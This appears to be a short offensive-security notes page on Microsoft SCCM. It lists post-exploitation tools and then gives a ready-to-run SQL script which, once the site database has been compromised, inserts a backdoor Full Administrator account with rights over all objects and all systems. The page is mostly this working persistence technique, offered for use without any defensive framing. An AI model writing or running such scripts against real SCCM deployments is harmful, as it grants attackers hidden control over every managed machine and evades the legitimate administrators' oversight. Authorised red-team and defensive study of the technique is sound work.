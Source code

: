 # SCCM

## Tools

[sccmhunter](https://github.com/garrettfoster13/sccmhunter/wiki/admin) - remote actions to sccm site

[SharpSCCM ](https://github.com/Mayyhem/SharpSCCM)- portable tool to postexploit&#x20;



## Postexploit

If we got database sccm, we can manually add admin

```sql
USE CM_ICG; -- ICG is site code
GO

INSERT INTO RBAC_Admins
  (AdminSID, LogonName, IsGroup, IsDeleted, CreatedBy, CreatedDate, ModifiedBy, ModifiedDate, SourceSite)
SELECT
  0x010500000000000515000000e2451490860880eb2477c972a5040000,         -- binary SID user in hex
  'icg\r_horse',                                                     -- login in format DOMAIN\User
  0,                                                                   
  0,                                                                   
  '', GETDATE(),                                                      -- CreatedBy/CreatedDate
  '', GETDATE(),                                                      -- ModifiedBy/ModifiedDate
  'ICG'                                                       -- Site Code
WHERE NOT EXISTS (
  SELECT 1 FROM RBAC_Admins WHERE LogonName = 'ICG\r_horse'
);  


DECLARE @AdminID INT = (
  SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'icg\r_horse'
);


INSERT INTO RBAC_ExtendedPermissions (AdminID, RoleID, ScopeID, ScopeTypeID)
SELECT
  @AdminID,
  V.RoleID,
  V.ScopeID,
  V.ScopeTypeID
FROM (VALUES
  ('SMS0001R', 'SMS00ALL', 29),    -- Full Admin на All Objects
  ('SMS0001R', 'SMS00001', 1)      -- Full Admin на All Systems
) AS V(RoleID, ScopeID, ScopeTypeID)
WHERE NOT EXISTS (
  SELECT 1
  FROM RBAC_ExtendedPermissions
  WHERE AdminID = @AdminID
    AND RoleID = V.RoleID
    AND ScopeID = V.ScopeID
    AND ScopeTypeID = V.ScopeTypeID
);
GO

```
